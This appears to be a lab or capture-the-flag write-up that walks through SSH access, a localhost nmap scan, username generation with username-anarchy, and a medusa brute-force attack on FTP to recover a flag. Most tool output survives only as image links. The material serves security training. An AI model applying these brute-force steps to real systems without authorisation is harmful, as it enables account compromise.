

After successfully obtaining the credentials. we login into SSH to the target .
we list the contents of the current working directory and open the file IncidentReport.txt, which contains the following message:

> Upon reviewing recent FTP activity, we have identified suspicious behavior linked to a specific user. The user **Thomas Smith** has been regularly uploading files to the server during unusual hours and has bypassed multiple security protocols. This activity requires immediate investigation.

So we perform an nmap on the local host.


The next step is to use the username-anarchy script to generate possible usernames that will be used in our FTP brute-force attack.
`./username-anarchy/username-anarchy Thomas Smith > thomas.txt`
We use the generated usenames-list to perform the attack with medusa

## Question 1
---
### What is the username of the ftp user you find via brute-forcing?
Done.

  

## Question 2
---
### What is the flag contained within flag.txt

Once we get the credentials, we connect to the FTP service .

Done.